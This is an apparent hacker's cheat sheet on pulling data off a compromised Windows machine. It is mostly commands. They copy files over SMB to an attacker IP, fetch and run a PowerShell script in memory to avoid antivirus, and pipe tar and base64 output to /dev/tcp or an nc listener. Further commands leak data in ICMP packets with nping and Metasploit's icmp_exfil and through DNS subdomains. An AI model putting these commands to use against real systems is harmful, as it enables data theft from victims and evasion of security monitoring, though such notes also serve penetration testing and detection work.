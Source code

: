 ```yaml
---
title: Windows data exfiltrator notes
---
```


- [1. Simple file transfer](#1-simple-file-transfer)
  - [1.1. SMB (two ways)](#11-smb-two-ways)
  - [1.2. Evil-WinRM (two ways)](#12-evil-winrm-two-ways)
  - [1.3. HTTP (attacker -\> victim)](#13-http-attacker---victim)
- [2. TCP socket](#2-tcp-socket)
- [3. SSH protocol](#3-ssh-protocol)
- [4. HTTP(S) protocol](#4-https-protocol)
- [5. ICMP](#5-icmp)
- [6. DNS](#6-dns)

## 1. Simple file transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 1.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 1.2. Evil-WinRM (two ways)
The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

```bash
> download <file>
> send <file>
```

### 1.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
# Download and save
Invoke-WebRequest <URL> -OutFile <FILE>
```

There's a method to download a PS script and run it without touching the disk (directly from memory). It's used to avoid antiviruses and so on.

```powershell
iex (NEw-Object New.WebClient).DownloadString("<URL_TO_SCRIPT.ps1>")
```

## 2. TCP socket
This kind of exfiltration is not recommended in a well-secured environments. Non-standard TCP protocol can be detected easily.

Listener (attacker):

```bash
# Receive data and save to file
nc -lvnp <PORT> > /path/to/file

# Decode and decompress data
dd conv=ascii if=<FILE> | base64 -d > file.tar
tar xvf file.tar
```

Sender (victim):

```bash
# Send compressed and encoded data
tar zcf - <DIR> | base64 | dd conv=ebcdic > /dev/tcp/<IP>/<PORT>
```

## 3. SSH protocol
SSH establishes a secure channel because all transmitted data is encrypted. It's not possible to sniff the unencrypted content.

Sender (victim):

```bash
# Send a file via ssh
tar cf - <DIR> | ssh <HOST> "cd /tmp/; tar xpf -"
```

## 4. HTTP(S) protocol
Exfiltration data through the HTTP protocol is one of the best options because it is hard to distinguish between legitimate and malicious HTTP traffic. Additionally, a POST request data is not stored in log files, cache or any other history.

## 5. ICMP
ICMP packet has optional `data` field where the sensitive data can be stored and transmitted.

Listener (attacker): `Metasploit` framework has built-in module to capture malicious ICMP sequence.

```bash
> use auxiliary/server/icmp_exfil
# Omit outgoing ICMP packets
> set BPF_FILTER icmp and not src <ATTACKER_IP>
> set INTERFACE eth0
> run
```

Sender (victim): we can use the `nping` tool which part of the Nmap package. The ICMP data sequence for the Nmap listener is initialized sending the `BOF<filename>` string.

```bash
# Initialize the ICMP sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "BOFfile.txt"
# Send data
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "<DATA>"
# End of the sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "EOF"
```

## 6. DNS
DNS is not a transport protocol and it's basis of the entire internet so it's not usually monitored. Fully Qualified Domain Name (FQDN) can be at most 255 characters long (including `.` separators). The subdomain part must not exceed 63 characters. The trick is to transfer data using the subdomain part to the controlled (malicious) DNS server.

On the malicious DNS server capture any incoming UDP/53 packet:

```bash
tcpdump -i eth0 udp port 53 -v
```
